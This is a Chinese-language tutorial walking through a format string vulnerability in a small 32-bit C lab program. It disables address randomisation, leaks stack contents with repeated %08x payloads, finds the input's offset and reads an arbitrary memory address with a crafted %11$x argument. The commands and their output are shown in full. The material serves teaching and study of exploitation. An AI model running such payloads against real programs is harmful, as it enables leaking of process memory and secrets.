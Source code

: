 
为了方便实验，设置关闭地址随机化：

```bash
rz$ sudo sysctl kernel.randomize_va_space=0
kernel.randomize_va_space = 0
```

编译运行

```bash
rz$ gcc -m32 -g fmt_vuln.c -o fmt_vuln.out
rz$ ./fmt_vuln.out 1
your input:
1
the wrong way to print:
1
[*] value @ 0xffffcc98 = 0x00000064
```

如上可看到，`value`的地址为`0xffffcc98`，值为`0x64`

输入`%08x08x08x...`时即可遍历栈空间

```bash
rz$ ./fmt_vuln.out `perl -e 'print "%08x."x16'`
your input:
%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.
the wrong way to print:
ffffcf0d.8e808426.56555629.f7ff0e07.ffffc820.f7fdf289.ffffcd04.f7dd3cb8.00000064.25fcf110.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.
[*] value @ 0xffffc834 = 0x00000064
```

# 读取任意存储地址的内容


```bash
rz$ ./fmt_vuln.out AAAAA`perl -e 'print "%08x."x12'` 	# AAAAA为标记
your input:AAAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.
the wrong way to print:
AAAAAffffcf12.8e808426.56555629.f7ff0e07.ffffc830.f7fdf289.ffffcd14.f7dd3cb8.00000064.41fcf110.41414141.78383025.[*] value @ 0xffffc844 = 0x00000064
```

我们输入的数据会写入栈空间`text`数组中，所以通过字符串格式化漏洞可以读取到我们输入的数据，为了方便找到具体位置，以`AAAAA`作为字符串前缀，`%x`输出`41`时即可确定具体位置。如上，第11个格式化参数即可读取到我们传入的数据。

把`AAAA`替换为任意地址（这里用环境变量`LANG`的地址`0xffffd810`做演示）

```bash
# 0xffffd810，小端存储为`\x10\xd8\xff\xff`。`$`在bash里有特殊含义，所以需要转义一下
rz$ ./fmt_vuln.out "A`printf "\x10\xd8\xff\xff"`%11\$x" 
your input:
A���%11$x
the wrong way to print:
A���ffffd810	# 输出，`ffffd810`
[*] value @ 0xffffc874 = 0x00000064
```
